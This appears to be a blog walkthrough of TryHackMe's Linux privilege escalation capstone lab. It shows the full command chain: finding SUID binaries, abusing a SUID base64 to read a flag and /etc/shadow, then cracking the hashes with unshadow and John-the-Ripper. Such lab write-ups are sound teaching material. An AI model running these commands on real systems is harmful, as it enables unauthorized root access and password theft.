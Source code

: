 ```yaml
---
title: "TryHackMe Linux Privesc Capstone: A Quick Internal Pentest to Gain Root"
datePublished: Wed Aug 16 2023 11:55:33 GMT+0000 (Coordinated Universal Time)
cuid: clldoeqdh000609miczqj50an
slug: tryhackme-linux-privesc-capstone-a-quick-internal-pentest-to-gain-root
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1692185506075/efdf958c-8af9-4652-8fcb-5e17b68b4576.png
tags: hacking, ctf, penetration-testing, 2articles1week, ethicalhacking

---
```


This walkthrough will go over the [Linux Privilege Escalation Capstone](https://tryhackme.com/room/linprivesc) found on [TryHackMe](https://tryhackme.com/). The objective is to assess your understanding gained from the prior course content by situating you in an internal environment where you already possess low-level privileges on a Linux server. Your task is to identify an attack vector that enables you to escalate your privileges to root.

### Ready, set, go!

First, we want to check and see if there is a `cron job` that we can exploit.

```bash
cat /etc/crontab
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692185826744/eee4c211-6b03-4719-b6c2-265fd4e7ce7e.png align="center")

There's nothing for us here. Let's proceed to see which binaries are available for us to run with `sudo` privileges.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692185884807/e3bcf798-ed39-4656-9de4-2114615d3156.png align="center")

We can exploit the `base64` binary with incorrect permissions to obtain the root flag.

```bash
LFILE=/home/rootflag/flag2.txt
base64 "$LFILE" | base64 --decode
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186099250/bdf8c2f0-8489-4189-b365-156a44e465b3.jpeg align="center")

Well, that worked for obtaining the root flag! Acquiring flag1 was a bit more challenging and required the use of `unshadow`. This command merges the `passwd` and `shadow` files into a single file, which can then be utilized by `John-the-Ripper` to crack passwords.

```bash
LFILE=/etc/shadow
base64 "$LFILE" | base64 -- decode
```

Copy and save the content into a `shadow.txt` file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186390044/98ae8149-e977-40a5-9052-586d75b6bfe3.jpeg align="center")

Grab the contents from `passwd`.

```bash
cat /etc/passwd
```

Copy and save the content into a `passwd.txt` file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186452849/0d57e72e-5b5c-4686-93f5-af8cf005504a.png align="center")

Combine the files and use `John-the-Ripper` to crack the passwords:

```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186645883/49740bc6-7749-4c97-a428-0d480adac3ea.jpeg align="center")

Now that we have obtained `missy's` account password, we can switch users and retrieve the final flag from her `Documents` folder:

```bash
/home/missy/documents
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186822198/e7a92ac6-8f53-4cc3-914f-73304d6e6958.jpeg align="center")

### Summary

> In this walkthrough, we explore the Linux Privilege Escalation Capstone on TryHackMe, aiming to escalate our privileges to root. We begin by checking for exploitable cron jobs and identifying binaries with sudo privileges. We exploit the base64 binary to obtain the root flag and use unshadow and John-the-Ripper to crack passwords and retrieve the final flag from a missy's Documents folder.